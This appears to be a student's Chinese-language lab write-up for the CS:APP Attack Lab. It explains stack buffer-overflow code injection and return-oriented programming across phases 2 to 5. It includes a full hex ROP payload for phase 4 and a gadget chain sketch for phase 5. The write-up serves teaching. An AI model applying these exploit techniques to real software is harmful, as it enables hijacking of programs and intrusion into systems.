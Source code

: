 ![](C:\Users\20153\AppData\Roaming\marktext\images\2025-10-10-11-17-09-image.png)

## Phase2（思路）

通过gdb可以知道test函数返回地址为0x5566b660，在getbuf函数分配栈空间后，%rsp的地址为0x5566b638，分配了0x28的空间（40字节）。我们将我们注入的代码汇编为字节码并作为正常字符输入，但是同第一问，最终输入的字符串超出了栈空间，改变了返回地址，使得函数控制权交给了注入的代码。

诸如的代码的功能就是将cookie传入touch2的参数寄存器%rdi，并将torch2的地址压栈，最后ret。

这里使用了ret指令的功能：从栈中弹出一个地址，并将%rip（程序计数器PC）设置为该地址。由于提前将touch2的地址压入栈中，ret指令返回对应地址，所以程序运行了touch2，并且修改了参数寄存器为cookie。

## Phase3

![](C:\Users\20153\AppData\Roaming\marktext\images\2025-10-10-13-01-10-image.png)

在touch3函数分配栈空间前，查看当前%rsp的元素（其实应该从0x5566b660开始，但是test函数分配了0x8的空间），发现0x5566b668之后还有空间

![](C:\Users\20153\AppData\Roaming\marktext\images\2025-10-10-14-31-23-image.png)

于是将phase2溢出后再一个字节的位置设置为cookie的16进制码，%rdi寄存器则保存对应地址。

## Phase4

ROP攻击。

在401f16处找到58 90 90 c3，即popq  %rax;  nop;  nop;  ret；

在401edf处找到48 89 c7 c3，即movq %rax, %rdi;  ret；

故答案为：

```textile
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
16 1f 40 00 00 00 00 00 // pop指令
b5 8f 32 2a 00 00 00 00 // cookie
df 1e 40 00 00 00 00 00 // move指令
64 1c 40 00 00 00 00 00 // touch2地址
```

```asm6502
pop %rax

```

## Phase5

由于栈随机，所以考虑栈指针+偏移来获取指针

![](C:\Users\20153\AppData\Roaming\marktext\images\2025-10-10-15-53-12-image.png)

有参考：[【CSAPP】【attacklab】实验三 Attack lab 详解_attacklab详解-CSDN博客](https://blog.csdn.net/weixin_72899100/article/details/144241370)

![](C:\Users\20153\AppData\Roaming\marktext\images\2025-10-10-16-29-30-image.png)

[修复 CS:APP 攻击实验室在新版 Ubuntu 22.04 上的段错误 | Rijuyuezhu 的博客 --- Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

最终思路参考这篇：

[CSAPP Attack Lab详解 - Svicen - 博客园](https://www.cnblogs.com/SVicen/p/16838693.html#level-3-1)

```py
# 前0x28个字符填充0x00
popq %rax
bias = 0x20
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi             # rsi为0x20
movq %rsp,%rax             # rax = rsp
movq %rax,%rdi
add_xy # 代替指令 lea (%rdi,%rsi,1),%rax
movq %rax,%rdi
# touch3地址
# cookie
00 00 00 00 00 00 00 00 00
# 对齐
```
